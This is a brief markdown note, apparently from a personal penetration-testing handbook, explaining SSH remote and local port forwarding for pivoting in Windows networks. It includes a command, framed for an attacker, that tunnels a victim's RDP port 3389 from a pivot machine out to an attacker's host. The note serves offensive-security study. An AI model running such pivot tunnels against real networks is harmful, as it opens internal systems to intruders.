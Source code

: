 # SSH Tunnelling:
  ## SSH Remote Port Forwarding:
  - **Remote port forwarding allows you to take a reachable port from the SSH client and project it into a remote SSH server (the attacker's machine).**
  ![ssh rpf](https://github.com/Alikhoshkholgh/HackBook/blob/main/Windows-Environment/ActiveDirectory/zz-remote-SSH-portForwarding.png)
  
  ### Command:
  ```
  # attacker wants to see oprt:3389 from victim with pivot-machine. in the pivot-machine execute this command:
  ssh username@<attackerIP> -R <anything>:<victimIP>:3389 -N
  # now attacker can see the RDP from "localhost:<anything>"
  ```
  ## SSH Local Port Forwarding:
  ![ssh lpf](https://github.com/Alikhoshkholgh/HackBook/blob/main/Windows-Environment/ActiveDirectory/zz-local-SSH-portforwarding.png)
  
  ### Command:
  ```
  ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
  ```
